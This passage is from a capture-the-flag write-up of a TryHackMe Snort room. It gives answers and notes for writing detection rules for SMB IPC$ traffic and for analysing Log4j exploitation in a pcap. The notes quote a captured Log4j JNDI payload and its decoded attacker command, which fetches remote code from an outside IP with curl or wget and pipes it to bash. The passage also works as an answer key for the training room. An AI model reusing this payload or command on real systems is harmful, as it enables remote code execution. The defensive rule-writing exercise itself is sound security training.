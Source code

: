 ```  Then run snort with the local rules
> 25154 [Reveal Answer](#) #### Question 2  **Clear the previous log and alarm files.**  Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword.  What is the number of detected packets?  ##### Notes  The backslash causes problems, so once the string has been converted to hex I had the following rule:  ``` bash
alert tcp any any &lt;&gt; any any  (msg: "\IPC$"; content:"|5c 49 50 43 24|"; sid: 100001; rev:1;)
```  #### Answer
> 12 [Reveal Answer](#) #### Question 3  Investigate the logalarm files.  What is the requested path?  ##### Notes  The snort log has entries like  ```
^@^@^@^@^@[�SMBu^@^@^@^@^X^A ^@^@^@^@^@^@^@^@^@^@K^@^H�^^D�^@^@^@^@^@^A^@^\^@^@\\192.168.116.138\IPC$^@????^@TH_REPLACE
```  #### Answer
> smb\\192.168.116.138\IPC$ [Reveal Answer](#) #### Question 4  What is the CVSS v2 score of the MS17-010 vulnerability?  ##### Notes  https:/www.cvedetails.comcveCVE-2017-0144/  #### Answer
> 9.3 [Reveal Answer](#) ### Task 8 - Using External Rules (Log4j)  Let's use external rules to fight against the latest threats!  Use the given pcap file.  #### Question 1  Use the given rule file (local.rules) to investigate the log4j exploitation.  What is the number of detected packets?  #### Answer
> 26 [Reveal Answer](#) #### Question 2  Investigate the logalarm files.  How many rules were triggered?.  #### Answer
> 4 [Reveal Answer](#) #### Question 3  Investigate the logalarm files.  What are the first six digits of the triggered rule sids?  #### Answer
> 210037 [Reveal Answer](#) #### Question 4  Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.  What is the number of detected packets?  ##### Notes  :::info
Hint: The "dsize" option will help you to filter the payload size. 
:::
A little more info on [dsize syntax](http:/manual-snort-org.s3-website-us-east-1.amazonaws.comnode33.html#SECTION00467000000000000000)  The rule can look like the below;  ``` bash
alert tcp any any &lt;> any any (msg: "Between 770 and 885 bytes"; dsize:770&lt;&gt;855; sid: 100001; rev:1;)
```  Run snort  ``` bash
snort -c local-1.rules -A full -l . -r log4j.pcap
```  #### Answer
&gt; 41 [Reveal Answer](#) #### Question 5  Investigate the logalarm files.  What is the name of the used encoding algorithm?  ##### Notes  Quick read of the log file and I noticed this  > ^v^D�c���GET ?x=$\\{jndi:ldap:/45.155.205.233:12344BasicCommand??????KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=\} HTTP1.1  #### Answer
> Base64 [Reveal Answer](#) #### Question 6  Investigate the logalarm files.  What is the IP ID of the corresponding packet?  ##### Notes  I don't know why this is the answer, it is one of the many entries in the alert file.  #### Answer
> 62808 [Reveal Answer](#) #### Question 7  Investigate the logalarm files.  Decode the encoded command.  What is the attacker's command?  ##### Notes  The Base64 encoded string is part of the url in question 5 `KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=` it just needs decoding.  #### Answer
> (curl -s 45.155.205.233:5874162.0.228.253:80||wget -q -O- 45.155.205.233:5874162.0.228.253:80)|bash [Reveal Answer](#) #### Question 8  What is the CVSS v2 score of the Log4j vulnerability?  ##### Notes  [NIST cve-2021-44228](https:/nvd.nist.govvulndetailcve-2021-44228)  #### Answer
> 9.3  [Reveal Answer](#) ### Conclusion  Congratulations! Are you brave enough to stop a live attack in the [Snort2 Challenge 2](https:/tryhackme.comroomsnortchallenges2) room?  Check back soon for my write up of Snort Challenge 2.